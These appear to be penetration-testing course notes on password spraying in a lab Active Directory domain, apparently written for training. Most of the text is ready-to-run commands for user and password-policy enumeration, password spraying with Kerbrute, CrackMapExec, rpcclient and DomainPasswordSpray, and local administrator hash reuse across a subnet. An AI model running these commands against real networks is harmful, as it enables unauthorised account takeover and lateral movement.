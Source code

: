 # Password Spraying
Password spraying can result in gaining access to systems and potentially gaining a foothold on a target network. The attack involves attempting to log into an exposed service using one common password and a longer list of usernames or email addresses. The usernames and emails may have been gathered during the OSINT phase of the penetration test or our initial enumeration attempts. Remember that a penetration test is not static, but we are constantly iterating through several techniques and repeating processes as we uncover new data. Often we will be working in a team or executing multiple TTPs at once to utilize our time effectively. As we progress through our career, we will find that many of our tasks like scanning, attempting to crack hashes, and others take quite a bit of time. We need to make sure we are using our time effectively and creatively because most assessments are time-boxed. So while we have our poisoning attempts running, we can also utilize the info we have to attempt to gain access via Password Spraying. Now let's cover some of the considerations for Password spraying and how to make our target list from the information we have.


## Enumerating the Password Policy Linux
```
crackmapexec smb 172.16.5.5 -u avazquez -p Password123 --pass-pol
```

### SMB NULL Sessions
SMB NULL sessions allow an unauthenticated attacker to retrieve information from the domain, such as a complete listing of users, groups, computers, user account attributes, and the domain password policy. SMB NULL session misconfigurations are often the result of legacy Domain Controllers being upgraded in place, ultimately bringing along insecure configurations, which existed by default in older versions of Windows Server.


#### Using rpcclient
```
rpcclient -U "" -N 172.16.5.5
rpcclient $> querydominfo
```

#### Using enum4linux
```
enum4linux -P 172.16.5.5
```

#### Using enum4linux-ng
```
enum4linux-ng -P 172.16.5.5 -oA ilfreight

cat ilfreight.json 
```

### LDAP Anonymous Bind
```
COR33@htb[/htb]$ ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
```

## Enumerating the Password Policy Windows
###  Enumerating Null Session.
```
net use \\DC01\ipc$ "" /u:""
```

### Using net.exe
```
net accounts
```

### Using PowerView
```
import-module .\PowerView.ps1
Get-DomainPolicy
```

#  Making a Target User List

- By leveraging an SMB NULL session to retrieve a complete list of domain users from the domain controller
- Utilizing an LDAP anonymous bind to query LDAP anonymously and pull down the domain user list
- Using a tool such as Kerbrute to validate users utilizing a word list from a source such as the statistically-likely-usernames GitHub repo, or gathered by using a tool such as linkedin2username to create a list of potentially valid users
- Using a set of credentials from a Linux or Windows attack system either provided by our client or obtained through another means such as LLMNR/NBT-NS response poisoning using Responder or even a successful password spray using a smaller wordlist

## SMB NULL Session to Pull User List
If you are on an internal machine but don’t have valid domain credentials, you can look for SMB NULL sessions or LDAP anonymous binds on Domain Controllers. Either of these will allow you to obtain an accurate list of all users within Active Directory and the password policy. If you already have credentials for a domain user or SYSTEM access on a Windows host, then you can easily query Active Directory for this information.

It’s possible to do this using the SYSTEM account because it can impersonate the computer. A computer object is treated as a domain user account (with some differences, such as authenticating across forest trusts). If you don’t have a valid domain account, and SMB NULL sessions and LDAP anonymous binds are not possible, you can create a user list using external resources such as email harvesting and LinkedIn. This user list will not be as complete, but it may be enough to provide you with access to Active Directory.

Some tools that can leverage SMB NULL sessions and LDAP anonymous binds include enum4linux, rpcclient, and CrackMapExec, among others. Regardless of the tool, we'll have to do a bit of filtering to clean up the output and obtain a list of only usernames, one on each line. We can do this with enum4linux with the -U flag.

```
$ enum4linux -U 172.16.5.5  | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"
```

## Using rpcclient
```
$ rpcclient -U "" -N 172.16.5.5
rpcclient $> enumdomusers 
```

## Using CrackMapExec
```
$ crackmapexec smb 172.16.5.5 --users
```

## Gathering Users with LDAP Anonymous
### Using ldapsearch
```
$ ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "
```

### Using windapsearch
```
$ ./windapsearch.py --dc-ip 172.16.5.5 -u "" -U
```

## Enumerating Users with Kerbrute
```
$ kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt > kerb.txt

grep -o '[a-zA-Z0-9._%+-]\+@[a-zA-Z0-9.-]\+\.[a-zA-Z]\{2,6\}' kerb.txt
```

If we are unable to create a valid username list using any of the methods highlighted above, we could turn back to external information gathering and search for company email addresses or use a tool such as linkedin2username to mash up possible usernames from a company's LinkedIn page.

## Credentialed Enumeration to Build our User List
```
$ sudo crackmapexec smb 172.16.5.5 -u htb-student -p Academy_student_AD! --users > crack.txt

awk -F 'INLANEFREIGHT.LOCAL\\\\' '{print $2}' crack.txt | awk '{print $1}' > new_crack.txt
```

# Internal Password Spraying 
## Linux
### Internal Password Spraying from a Linux Host
#### Using a Bash one-liner for the Attack
```
$for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```

#### Using Kerbrute for the Attack
```
$ kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
```

#### Using CrackMapExec & Filtering Logon Failures
```
$ sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +
```

#### Validating the Credentials with CrackMapExec
```
$ sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123
```

### Local Administrator Password Reuse
```
$ sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```

## Windows
### Using DomainPasswordSpray.ps1
```
PS > Import-Module .\DomainPasswordSpray.ps1
PS > Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```


